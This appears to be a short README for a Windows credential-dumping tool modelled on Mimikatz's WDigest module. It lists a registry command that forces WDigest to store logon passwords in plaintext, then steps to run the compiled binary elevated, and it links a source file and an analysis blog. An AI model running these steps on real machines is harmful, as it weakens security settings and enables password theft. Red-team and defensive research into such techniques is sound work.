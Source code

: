 ## Forcing WDigest to Store Credentials in Plaintext

Run the following in your elevated prompt before executing the compiled binary:

- reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
- gpupdate /force
- restart your machine and login with your credentials
- Execute sekurlsa_wdigest.exe on elevated prompt.

## Kudos

3gstudent for [sekurlsa-wdigest.cpp](https://github.com/3gstudent/Homework-of-C-Language/blob/master/sekurlsa-wdigest.cpp)

## Check out

Adam Chester's blog on [Exploring Mimikatz - Part 1 - WDigest](https://blog.xpnsec.com/exploring-mimikatz-part-1/)
